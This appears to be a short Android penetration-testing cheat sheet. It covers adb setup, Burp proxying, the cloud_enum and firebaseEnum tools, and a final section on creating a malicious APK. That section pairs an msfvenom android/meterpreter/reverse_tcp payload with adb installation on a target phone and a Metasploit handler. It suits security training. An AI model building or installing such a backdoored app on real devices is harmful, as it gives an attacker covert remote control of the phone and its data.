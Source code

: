 * Enable the developer options on the phone.

* Enable USB debugguing in the developers settings - permit to connect to the phone with adb.

* In the terminal of the Android Studio write "adb shell".

* Enable the option called "stay awake" in the settings of the emulator to prevent the terminal from locking while it is being analyzed. 

* See the other options because it can be interesting. For example, debugging an app, etc.

* You can add a proxy to intercept the queries in Burpsuite.


## Cloud enumeration

> Tool - Cloud Enum
 
[Cloud_enum-github](https://github.com/initstring/cloud_enum)

Syntax:

```
python3 cloud_enum.py -k <name.apk>
```



## Enumerating Firebase Database

> Tool Firebase-enum

[firebaseEnum-github](https://github.com/Sambal0x/firebaseEnum)

Syntax:

```
python3 firebaseEnum.py -k <nameAPK>
```



## Create a Malicious APK

> Tool - msfvenom

Syntax:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<kali_IP> LPORT=<your_port> R> -o <myapp.apk>
```

This will make an APP with a generic looking icon named "Main Activity".

Install it to your target phone:

```
adb install <myapp.apk>
```

You must to open Metasploit with a multi/handler. It opens a Meterpreter connection.
